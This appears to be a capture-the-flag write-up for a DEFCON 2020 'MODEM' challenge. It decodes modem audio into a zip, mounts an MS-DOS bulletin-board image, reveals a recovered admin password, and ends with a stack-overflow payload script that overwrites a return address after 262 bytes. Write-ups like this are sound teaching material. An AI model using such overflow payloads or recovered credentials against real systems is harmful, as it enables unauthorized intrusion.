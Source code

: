 # MODEM - Pwn - Reversing

After a long time, I'm back for DEFCON 2020 :) 

Use the script `downloader.py` to interact with the server and download the zip. 

Decode the zip with 

Shell1:
```bash
minimodem --rx 1200 -8 -R 48000 -q > data_in_decoded
```

Shell2: 
```bash
cat data_in.dat | aplay -r 48000 -t raw -f FLOAT_LE
```

Finally, decode it with: 
```python
f = open("/tmp/data_in_decoded", "r").read()
splitted = f.split(" ")
decoded = ''.join(map(lambda x: chr(int(x, 16)), splitted))
f = open("myServer.zip", 'wb')
f.write(decoded)
f.close()
```

Extract the zip, mount the image with 

```bash
sudo mount -o loop BBS.IMG /mnt/
```

Reverse the MSDOS binary to extract the admin password `supersneaky2020`. 

Create a new bulletin using the admin panel. There is an overflow when the bulletins are listed: the size of the payload is expected to be 256 bytes long, and after 262 bytes we can overwrite the return address of the function. 

The exploit is the following 

```python
with open('payload.txt', "wb") as f:
    f.write("FLAG.TXT\n")
    f.write("supersneaky2020\n")
    f.write("C\r\n")
    f.write("A" * 262 + "\x7d\xea" + "\x20\x1c" + "\xd5\x0b" + "\n\n")
    f.write("L\n")
```

Use some pro bash commands to interact with the server, see the video below :) 


